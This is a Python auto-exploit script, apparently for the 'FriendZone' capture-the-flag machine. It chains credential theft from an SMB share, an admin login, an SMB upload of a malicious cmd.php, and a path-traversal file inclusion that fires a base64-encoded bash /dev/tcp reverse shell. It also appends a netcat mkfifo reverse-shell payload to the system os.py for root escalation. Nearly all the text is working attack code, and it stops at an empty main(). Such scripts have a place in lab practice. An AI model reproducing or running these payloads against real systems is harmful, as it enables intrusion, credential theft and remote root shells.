 ```py
def FirstHandler(lport,lhost):
    www = listen(lport).wait_for_connection()
    lport = int(lport) + 1
    payload = "import os;os.system(\"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc %s %s >/tmp/f\")\n" %(lhost,lport)
    #payload = "import pty;import socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"%s\",%s));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(\"/bin/bash\")\n" %(lhost,lport)
    payload = b64e(payload).encode()
    www.send(b"echo %s | base64 -d >> /usr/lib/python2.7/os.py" %(payload))
    www.send(b"\n")
    www.close()
    
# Handler root which will be opened in thread
def RootHandler(lport):
    root = listen(lport).wait_for_connection()
    root.interactive()

# Function to get the user and password
def SambaRead(rhost):
    opener = urllib.request.build_opener(SMBHandler)
    fh = opener.open('smb://%s/general/creds.txt' %rhost)
    global creds
    creds = fh.read().decode().splitlines()[2]
    print("[+] The creds for the site is: %s ! [+]" %creds)
    fh.close()

# Login on the website
def LoginWeb(rhost,creds):
    print("[+] Now, let's login with the creds ! [+]")
    url = "https://administrator1.friendzone.red:443/login.php"
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    password = creds.split(":")[1]
    data = {"username": "admin", "password": "%s" %password}
    r.post(url, headers=headers, data=data, verify=False, proxies=proxies)
    print("[+] Logged In !! [+]")
    
# Function to upload the malicious php file
def SambaUpload(rhost):
    print("[+] Let's upload the malicious file !! [+]")
    file_fh = open('cmd.php', 'rb')
    director = urllib.request.build_opener(SMBHandler)
    fh = director.open('smb://%s/Development/cmd.php' %rhost, data = file_fh)
    fh.close()
    print("[+] Done ! [+]")
    
# Function to get the reverse shell
def getReverse(lhost,lport):
    print("[+] Now Let's get the reverse shell! [+]")
    reverse = "bash -i >& /dev/tcp/%s/%s 0>&1" %(lhost,lport)
    message_bytes = reverse.encode('ascii')
    base64_bytes = base64.b64encode(message_bytes)
    base64_message = base64_bytes.decode('ascii')

    payload = {
    'cmd': 'echo ' + base64_message + '|base64 -d | bash'
}
    payload_str = urllib.parse.urlencode(payload, safe='|')
    url = "https://administrator1.friendzone.red/dashboard.php?image_id=&pagename=../../../etc/Development/cmd"
    r.get(url, params=payload_str, proxies=proxies, verify=False, cookies=r.cookies)

def main():
```